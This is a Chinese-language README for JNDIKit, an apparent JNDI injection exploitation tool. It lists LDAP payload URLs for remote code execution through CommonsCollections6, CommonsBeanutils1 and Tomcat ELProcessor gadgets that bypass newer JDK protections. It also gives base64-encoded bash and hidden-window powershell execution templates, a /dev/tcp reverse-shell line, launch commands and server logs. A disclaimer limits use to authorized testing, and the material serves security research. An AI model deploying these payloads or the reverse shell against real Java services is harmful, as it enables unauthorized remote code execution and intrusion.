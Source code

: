 # JNDIKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 介绍

一款简单的`JNDI`注入利用工具

无需自行编译`Java`代码和开启`HTTP`服务，一切自动

| Payload                               | 介绍                                        |
|---------------------------------------|-------------------------------------------|
| ldap://0.0.0.0:1389/SimpleCommand     | 直接执行命令                                    |   
| ldap://0.0.0.0:1389/BashCommand       | 使用bash并进行Base64编码执行命令                     |
| ldap://0.0.0.0:1389/PowershellCommand | 使用powershell并进行Base64编码执行命令               |
| ldap://0.0.0.0:1389/CC6               | 使用CommonsCollections6绕过高版本JDK             |
| ldap://0.0.0.0:1389/BashCC6           | 使用CommonsCollections6绕过高版本JDK（bash）       |
| ldap://0.0.0.0:1389/PowershellCC6     | 使用CommonsCollections6绕过高版本JDK（powershell） |
| ldap://0.0.0.0:1389/CB1               | 使用CommonBeanUtils1绕过高版本JDK                |
| ldap://0.0.0.0:1389/BashCB1           | 使用CommonBeanUtils1绕过高版本JDK（bash）          |
| ldap://0.0.0.0:1389/PowershellCB1     | 使用CommonBeanUtils1绕过高版本JDK（powershell）    |
| ldap://0.0.0.0:1389/Tomcat            | 使用Tomcat ELProcessor绕过高版本JDK              |
| ldap://0.0.0.0:1389/BashTomcat        | 使用Tomcat ELProcessor绕过高版本JDK（bash）        |
| ldap://0.0.0.0:1389/PowershellTomcat  | 使用Tomcat ELProcessor绕过高版本JDK（powershell）  |

支持三种格式的`RCE`
- 直接执行：`Runtime.getRuntime.exec(command);`
- 使用`bash`并编码：`bash -c {echo,[Payload]}|{base64,-d}|{bash,-i}`
- 使用`powershell`并编码：`powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc [Payload]`

为什么需要对命令进行特殊处理： 

例如`linux`下执行反弹`shell`命令会失败：`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`

因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义，所以需要进行特殊处理

支持一些绕过高版本`JDK`的方式（同样支持三种格式的`RCE`）

- 打本地`gadget`的`CB1`和`CC6`链
- 利用`Tomcat ELProcessor`的绕过

## 使用

命令：`java -jar JNDIKit.jar --cmd calc.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|                                                                 
20:31:33 [INFO] [org.sec.Main] start jndi kit
20:31:33 [INFO] [org.sec.Main] cmd: calc.exe
20:31:33 [INFO] [org.sec.core.http.HttpServer] start http server: 0.0.0.0:8000
20:31:33 [INFO] [org.sec.core.ldap.LdapServer] start ldap server: 0.0.0.0:1389
┌─────────────────────────────────────┬────────────────────────────────────────────────────┐
│LDAP Payload                         │Introduce                                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/SimpleCommand    │Simple RCE                                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCommand      │Simple RCE Use Bash                                 │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCommand│Simple RCE Use Powershell                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CC6              │RCE Use CC6 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCC6          │RCE Use CC6 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCC6    │RCE Use CC6 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CB1              │RCE Use CB1 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCB1          │RCE Use CB1 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCB1    │RCE Use CB1 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/Tomcat           │Use Tomcat ELProcessor Bypass JDK 8u191 (Simple)    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashTomcat       │Use Tomcat ELProcessor Bypass JDK 8u191 (Bash)      │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellTomcat │Use Tomcat ELProcessor Bypass JDK 8u191 (Powershell)│
└─────────────────────────────────────┴────────────────────────────────────────────────────┘
```

如果端口冲突可自行配置端口

命令：`java -jar JNDIKit.jar --cmd calc.exe --lp 1390 --hp 8001`

接收到请求会实时打印

```text
20:53:21 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> SimpleCommand
20:53:30 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCommand
20:53:42 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCC6
20:53:51 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellTomcat
```

## 免责申明

**未经授权许可使用`JNDIKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


